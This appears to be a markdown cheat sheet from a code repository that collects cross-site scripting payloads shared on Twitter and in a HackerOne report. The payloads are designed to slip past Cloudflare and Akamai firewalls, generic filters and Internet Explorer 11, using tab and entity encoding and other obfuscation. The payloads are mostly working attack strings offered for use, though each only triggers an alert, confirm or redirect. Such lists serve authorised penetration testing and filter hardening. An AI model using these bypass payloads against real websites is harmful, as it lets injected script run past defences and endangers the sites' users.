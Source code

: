 # XSS Twitter Tips

## Cloudflare XSS Bypass

[Tweet](https://twitter.com/aisecureme/status/1240354605520678913) By [AISECUREME](https://twitter.com/aisecureme)

```html
<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>
```

[Tweet](https://twitter.com/s0md3v/status/1100734547962998785) By [s0md3v](https://twitter.com/s0md3v)
```html
<a"/onclick=(confirm)()>Click Here!
```

----------------------------------------------------------------------------------------

## Akamai XSS Bypass

*[Tweet](https://twitter.com/aisecureme/status/1240354605520678913) By [AISECUREME](https://twitter.com/aisecureme)*
```html
“><svg/on</script>laod=alert>
```

*[Tweet](https://twitter.com/saamux/status/1238449598051516418) By [saamux](https://twitter.com/saamux)*

A good way to bypass the Akamai WAF by exploiting a redirect-based XSS is with the following payload:

```javascript
javascript:new%20Function`al\ert\`1\``;
```
You can also obfuscate it using HTML entities

------------------------------------------------------------------------------------------

## WAF/filter Bypass
[Tweet](https://twitter.com/si9int/status/1239633166438223874) By [si9int](https://twitter.com/si9int)
![XSS](https://images-ext-1.discordapp.net/external/igR8oewSZci1zKzKoqk0xr9PunkJoDHTmGgLLi6FYfw/https/pbs.twimg.com/media/ETQPvU3WoAMiDBw.png%3Alarge)



## IE Bypass

IE 11 Xss Bypass [h1 report](https://hackerone.com/reports/127259) by [sergeym](https://hackerone.com/sergeym)

```html
"</script><script/%00%00v%00%00>document.location.href=location.hash.slice(1)</script>#javascript:alert(document.domain)
